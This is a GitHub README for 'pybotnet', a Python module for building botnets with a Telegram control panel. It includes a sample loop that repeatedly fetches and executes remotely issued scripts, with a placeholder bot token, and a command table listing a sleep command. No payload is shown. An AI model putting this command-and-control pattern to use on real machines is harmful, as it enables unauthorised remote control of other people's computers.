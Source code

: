 # pybotnet version 0.05

## A module for building botnets with Python and Telegram control panel

### See the [TODO List](https://github.com/onionj/pybotnet/blob/master/TODOLIST.MD) if you want to help me <3

### Features:
• get command from telegram and execute scripts \
• send message to telegram admin \
• get command from telegram


### Requirements:

• Python 3.6 or higher.
```
pip install -r requirements.txt
```

### Sample:

```python
import pybotnet
import time

TELEGRAM_TOKEN = '1468299500:AAHsvEH-5VyIfWYMzZcYxF_e00000000000'
ADMIN_CHAT_ID = '12345678910'
delay = 60

bot = pybotnet.PyBotNet(TELEGRAM_TOKEN, ADMIN_CHAT_ID, show_log=True)

while True:
    bot.get_and_execute_scripts_by_third_party_proxy()
    time.sleep(delay)

```

### Commmands:
Send this message to your api bot in telegram, using the admin account.
```
    COMMAND                                                 DO THIS
do_sleep <scconds> <message>                 # print(message); time.sleep(seccond)

```
